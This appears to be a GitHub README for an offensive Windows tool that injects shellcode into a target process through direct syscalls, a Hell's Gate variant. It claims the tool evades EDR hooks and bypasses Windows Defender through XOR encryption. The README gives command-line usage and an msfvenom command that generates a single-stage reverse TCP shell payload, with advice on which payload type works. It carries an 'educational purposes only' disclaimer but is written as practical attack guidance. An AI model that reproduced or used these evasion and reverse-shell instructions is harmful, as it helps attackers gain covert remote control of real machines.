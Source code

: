 # He4vensG4te
Process Injection Using direct syscalls only 

FOR EDUCATIONAL PURPOSES ONLY THIS CODE IS NOT MEANT TO BE WEPONIZED OR USED FOR MALICIOUS INTENTS
# technique explanation

just like a normal process injection we first get a handle to the target process , allocate space inside it, write the shellcode then create a thread that executes the shellcode 

now in each of these steps we have to use a win api function not just risking that some of these functions might be hooked by edrs but also this patters is so knows and any behavioral analysis will flag the malware so i wroked on my own version of the hellsgate technique to directly call the syscall instead of using high level win api functions

# how does it work 

its pretty simple and i already explained it here https://github.com/B4shCr00k/DirectSysCalls so we just call the stub everytime we call an nt function and repeat until we complete all the steps 

i also included a simple xor encryption to bypass static avs like win defender 

# Usage 
`He4vensG4te.exe [path] [pid]`

-  path must use double back slashes '\\'
-  tested on windows 11 x64 latest build
-  bypasses windows defender and some other static avs  

# Important note 
for the shellcode it has to be a .bin file you can generate one using metasploit like this 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=x -f raw -o shellcode.bin`
the thing is u have to use a one stage payload cause i noticed that when i inject a multi stage meterpreter reverse shell the process crashes and the connection failed so the command above will generate a one stage simple reverse shell that actually works 

# ScreenShots
![Screenshot 2025-06-14 194559](https://github.com/user-attachments/assets/bd4e0cfb-6c2b-4695-a374-3c78be4fd893)
![Screenshot 2025-06-14 194936](https://github.com/user-attachments/assets/c880f7ab-04fe-4140-b667-fc1351fc49cb)
